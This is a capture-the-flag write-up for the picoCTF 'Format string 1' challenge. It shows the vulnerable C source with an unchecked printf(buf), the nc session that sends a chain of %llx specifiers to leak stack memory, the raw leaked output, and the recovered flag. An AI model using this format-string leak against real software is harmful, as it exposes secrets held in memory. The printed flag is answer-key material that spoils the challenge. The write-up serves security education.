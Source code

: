# Format string 1

In this challenge we are given a binary file from which we to check whether its is a 32 bit or 62 bit.
Whether it is 32 bit or 64 bit will matter because it will decide the format specifier we need to use. Wheter it will be int, long int or long long int

From the image given below we can see that the binary file is of 64 bit.

![Screenshot (754)](https://github.com/user-attachments/assets/a8201765-79e6-4fc9-a13a-530b0939cfed)

The source code for the challenge is geven :-
```bash
#include <stdio.h>


int main() {
  char buf[1024];
  char secret1[64];
  char flag[64];
  char secret2[64];

  // Read in first secret menu item
  FILE *fd = fopen("secret-menu-item-1.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-1.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret1, 64, fd);
  // Read in the flag
  fd = fopen("flag.txt", "r");
  if (fd == NULL){
    printf("'flag.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(flag, 64, fd);
  // Read in second secret menu item
  fd = fopen("secret-menu-item-2.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-2.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret2, 64, fd);

  printf("Give me your order and I'll read it back to you:\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your order: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  printf("Bye!\n");
  fflush(stdout);

  return 0;
}
```
We can see that initially it reads menu items from two files namely `secret-menu-item-1.txt` and `secret-menu-item-2.txt`.
in `printf(buf);` there is a format string vulnerability a format specifier is missing.

Initially i tried entering `%x` in succession just like in the format string 0 challenge.
it gave the output in hexadecimal form. After that I used hexadecimal to ASCII converter, but it was missing some parts of the flag.

![Screenshot (744)](https://github.com/user-attachments/assets/8f1d8aa7-3004-43dd-99b4-ada728fe8f53)

Then I used `%llx` as input:-
![Screenshot (750)](https://github.com/user-attachments/assets/00a2ddd7-16b5-49fb-a27f-dc625257237a)

As we can see we got the output correctly.
```bash
muizz@LAPTOP-VF1FT9IQ:~$ nc mimas.picoctf.net 51271
Give me your order and I'll read it back to you:
%llx:%llx:%llx:%llx:%llx:%llx:%llx:%llx:%llx:%llx:%llx:%llx:%llx:%llx:%llx:%llx:%llx:%llx:%llx:%llx:%llx:%llx:%llx:%llx:%llx:%llx:%llx:%llx:%llx:%llx:%llx:%llx:%llx:%llx:%llx:%llx:%llx:%llx:%llx:%llx:%llx:%llx:%llx:%llx:%llx:%llx:%llx:%llx:
Here's your order: 402118:0:761c1bba1a00:0:1245880:a347834:7ffcbab79680:761c1b992e60:761c1bbb74d0:1:7ffcbab79750:0:0:7b4654436f636970:355f31346d316e34:3478345f33317937:65355f673431665f:7d346263623736:7:761c1bbb98d8:2300000007:206e693374307250:a336c797453:9:761c1bbcade9:761c1b99b098:761c1bbb74d0:0:7ffcbab79760:6c6c253a786c6c25:253a786c6c253a78:786c6c253a786c6c:6c253a786c6c253a:3a786c6c253a786c:6c6c253a786c6c25:253a786c6c253a78:786c6c253a786c6c:6c253a786c6c253a:3a786c6c253a786c:6c6c253a786c6c25:253a786c6c253a78:786c6c253a786c6c:6c253a786c6c253a:3a786c6c253a786c:6c6c253a786c6c25:253a786c6c253a78:786c6c253a786c6c:6c253a786c6c253a:
Bye!
```

Now if we convert the hexadecimal to ASCII we get the flag in a jumbled order.
After rearranging it we get the final flag.

![Screenshot (749)](https://github.com/user-attachments/assets/17034be5-fb93-4bbf-82bb-56f53ac597c1)


flag:- picoCTF{4n1m41_57y13_4x4_f14g_5e67bcb4}

This is how I solvedd it.

